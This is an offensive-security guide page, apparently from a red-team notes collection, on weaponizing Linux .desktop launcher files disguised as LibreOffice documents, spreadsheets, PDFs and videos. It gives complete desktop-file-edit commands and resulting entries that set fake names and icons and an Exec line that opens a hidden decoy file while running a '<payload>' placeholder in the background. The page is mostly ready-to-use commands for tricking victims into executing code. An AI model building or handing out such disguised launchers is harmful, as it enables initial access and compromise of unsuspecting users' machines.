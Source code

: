 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - initial-access
  - weaponization
  - client-side-attacks
  - linux
---
```

# Helpers

## Install Desktop File Utilities

Install it according to your package manager.

```
$ sudo apt install -y desktop-file-utils

$ sudo dnf install -y desktop-file-utils

$ sudo pacman -S --noconfirm desktop-file-utils
```

## Common Files Locations

### Directory Entries

```
/usr/share/desktop-directories/
~/.local/share/desktop-directories/
```

### Desktop Entries

```
/usr/share/applications/
~/.local/share/applications/
```

## LibreOffice Desktop Entry Templates

```
$ ls -l /usr/share/applications/libreoffice-*.desktop
```

### Document Desktop Entry

First create the file.

```
$ touch malicious_document.odt.desktop
```

Then insert the following keys and values.

```
$ desktop-file-edit \
--set-key="Encoding" --set-value="UTF-8" \
--set-name="document.odt" \
--set-key="Version" --set-value="1.0" \
--set-comment="A document file" \
--set-key="Path" --set-value="/tmp/" \
--set-icon="libreoffice-writer" \
--set-key="Terminal" --set-value="false" \
--set-key="Exec" --set-value="libreoffice --writer \"\$(pwd)/.real_document.odt\" | <payload> &" \
--set-key="Type" --set-value="Application" \
--set-key="NoDisplay" --set-value="true" \
--set-key="Hidden" --set-value="false" \
--remove-key="X-Desktop-File-Install-Version" \
malicious_document.odt.desktop 2&>1
```

To view the contents of the payload.

```
$ cat malicious_document.odt.desktop
[Desktop Entry]  
Encoding=UTF-8  
Name=document.odt  
Version=1.0  
Comment=A document file  
Path=/tmp/  
Icon=libreoffice-writer  
Terminal=false  
Exec=libreoffice --writer "$(pwd)/.real_document.odt" | <payload> &  
Type=Application  
NoDisplay=true  
Hidden=false
```

### Spreadsheet Desktop Entry

First create the file.

```
$ touch malicious_spreadsheet.ods.desktop
```

Then insert the following keys and values.

```
$ desktop-file-edit \
--set-key="Encoding" --set-value="UTF-8" \
--set-name="spreadsheet.ods" \
--set-key="Version" --set-value="1.0" \
--set-comment="A spreadsheet file" \
--set-key="Path" --set-value="/tmp/" \
--set-icon="libreoffice-calc" \
--set-key="Terminal" --set-value="false" \
--set-key="Exec" --set-value="libreoffice --calc \"\$(pwd)/.real_spreadsheet.ods\" | <payload> &" \
--set-key="Type" --set-value="Application" \
--set-key="NoDisplay" --set-value="true" \
--set-key="Hidden" --set-value="false" \
--remove-key="X-Desktop-File-Install-Version" \
malicious_document.ods.desktop 2&>1
```

To view the contents of the payload.

```
$ cat malicious_spreadsheet.ods.desktop
[Desktop Entry]
Encoding=UTF-8
Name=spreadsheet.ods
Version=1.0
Comment=A spreadsheet file
Path=/tmp/
Icon=libreoffice-calc
Terminal=false
Exec=libreoffice --calc "$(pwd)/.real_spreadsheet.ods" | <payload> &
Type=Application
NoDisplay=true
Hidden=false
```

## PDF Desktop Entry

First create the file.

```
$ touch malicious_document.pdf.desktop
```

Then insert the following keys and values.

```
$ desktop-file-edit \
--set-key="Encoding" --set-value="UTF-8" \
--set-name="document.pdf" \
--set-key="Version" --set-value="1.0" \
--set-comment="A readable document file" \
--set-key="Path" --set-value="/tmp/" \
--set-icon="x-office-document" \
--set-key="Terminal" --set-value="false" \
--set-key="Exec" --set-value="libreoffice \"\$(pwd)/.real_document.pdf\" | <payload> &" \
--set-key="Type" --set-value="Application" \
--set-key="NoDisplay" --set-value="true" \
--set-key="Hidden" --set-value="false" \
--remove-key="X-Desktop-File-Install-Version" \
malicious_document.pdf.desktop 2&>1
```

To view the contents of the payload.

```
$ cat malicious_document.pdf.desktop
[Desktop Entry]
Encoding=UTF-8
Name=document.pdf
Version=1.0
Comment=A readable document file
Path=/tmp/
Icon=x-office-document
Terminal=false
Exec=libreoffice "$(pwd)/.real_document.pdf" | <payload> &
Type=Application  
NoDisplay=true
Hidden=false
```

Another variant by replacing the icon value `application-pdf` which is much more universal.

```
$ desktop-file-edit \
--set-key="Encoding" --set-value="UTF-8" \
--set-name="document.pdf" \
--set-key="Version" --set-value="1.0" \
--set-comment="A readable document file" \
--set-key="Path" --set-value="/tmp/" \
--set-icon="application-pdf" \
--set-key="Terminal" --set-value="false" \
--set-key="Exec" --set-value="libreoffice \"\$(pwd)/.real_document.pdf\" | <payload> &" \
--set-key="Type" --set-value="Application" \
--set-key="NoDisplay" --set-value="true" \
--set-key="Hidden" --set-value="false" \
--remove-key="X-Desktop-File-Install-Version" \
malicious_document.pdf.desktop 2&>1

$ cat malicious_document.pdf.desktop
[Desktop Entry]
Encoding=UTF-8
Name=document.pdf
Version=1.0
Comment=A readable document file
Path=/tmp/
Icon=application-pdf
Terminal=false
Exec=libreoffice "$(pwd)/.real_document.pdf" | <payload> &
Type=Application  
NoDisplay=true
Hidden=false
```

## Video Desktop Entry

First create the file.

```
$ touch malicious_video.mp4.desktop
```

Then insert the following keys and values.

```
$ desktop-file-edit \
--set-key="Encoding" --set-value="UTF-8" \
--set-name="video.mp4" \
--set-key="Version" --set-value="1.0" \
--set-comment="A video file" \
--set-key="Path" --set-value="/tmp/" \
--set-icon="video-x-generic" \
--set-key="Terminal" --set-value="false" \
--set-key="Exec" --set-value="/usr/bin/xdg-open \"\$(pwd)/.real_video.mp4\" | <payload> &" \
--set-key="Type" --set-value="Application" \
--set-key="NoDisplay" --set-value="true" \
--set-key="Hidden" --set-value="false" \
--remove-key="X-Desktop-File-Install-Version" \
malicious_video.mp4.desktop 2&>1
```

To view the contents of the payload.

```
$ cat malicious_video.mp4.desktop
[Desktop Entry]
Encoding=UTF-8
Name=video.mp4
Version=1.0
Comment=A video file
Path=/tmp/
Icon=video-x-generic
Terminal=false
Exec=/usr/bin/xdg-open "$(pwd)/.real_video.mp4" | <payload> &
Type=Application  
NoDisplay=true
Hidden=false
```

---
## References

### FreeDesktop

- [FreeDesktop: Desktop Entry Spec - Recognized desktop entry keys](https://specifications.freedesktop.org/desktop-entry-spec/latest/recognized-keys.html)

- [FreeDesktop: Desktop Entry Spec - The `Exec` key](https://specifications.freedesktop.org/desktop-entry-spec/latest/exec-variables.html)